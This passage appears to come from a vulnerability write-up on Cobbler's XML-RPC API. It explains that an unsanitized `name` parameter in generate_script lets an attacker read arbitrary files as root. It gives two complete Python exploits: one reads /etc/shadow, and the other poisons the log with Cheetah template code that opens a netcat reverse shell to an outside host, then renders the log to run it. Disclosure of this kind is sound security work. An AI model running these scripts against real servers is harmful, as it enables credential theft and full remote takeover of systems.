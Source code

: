 The `name` parameter is not sanitized before being passed to `os.path.join` and then `open`.

That way, we can abuse this RPC method to read arbitrary files as root.

```python
import xmlrpc.client
import traceback

def try_connect(url):
    try:
        xmlrpc_server = xmlrpc.client.ServerProxy(url)
        return xmlrpc_server
    except:
	    traceback.print_exc()
        return None

if __name__ == '__main__':
    api = try_connect("http://[cobbler_server]/cobbler_api")

    profiles = api.get_profiles()
    if len(profiles) > 0:
        target = profiles[0]["name"]
        print(api.generate_script(target, "", "/etc/shadow"))
    else:
	    print("No profiles")
```

Because the file is rendered using a template engine (by default, [Cheetah](https://pythonhosted.org/Cheetah/)), we could perform a template injection in order to gain arbitrary code execution.

Cheetah allows templates to execute arbitrary Python code, so no needs for a Sandbox escape or tricky object manipulation. 

However, we still need to write an arbitrary template code to the filesystem.

We found that the easiest way to do that is to perform a log poisoning attack.

In the `cobbler/remote.py` file, many endpoints are calling the `_log` method that writes some RPC parameters in the cobbler log file.
Using the endpoint of our choice, we can manipulate the cobbler log file, and then, evaluate this file as a template using this vulnerability.

```python
import xmlrpc.client
import traceback

def try_connect(url):
    try:
        xmlrpc_server = xmlrpc.client.ServerProxy(url)
        return xmlrpc_server
    except:
        traceback.print_exc()
        return None

if __name__ == '__main__':
    exploitcode = '__import__(\'os\').system(\'nc [tnpitsecurity] 4242 -e /bin/sh\')'
    api = try_connect("http://[cobbler_server]/cobbler_api")

    profiles = api.get_profiles()
    if len(profiles):
        print("Found a valid profile, exploiting...")
        target = profiles[0]["name"]
        print("[+] Stage 1 : Poisoning log with Cheetah template RCE")
        print(api.generate_script(target, "", '{<%= ' + exploitcode + ' %>}'))
        print("[+] Stage 2 : Rendering template using an arbitrary file read.")
        print(api.generate_script(target, "", "/proc/self/fd/5"))
```
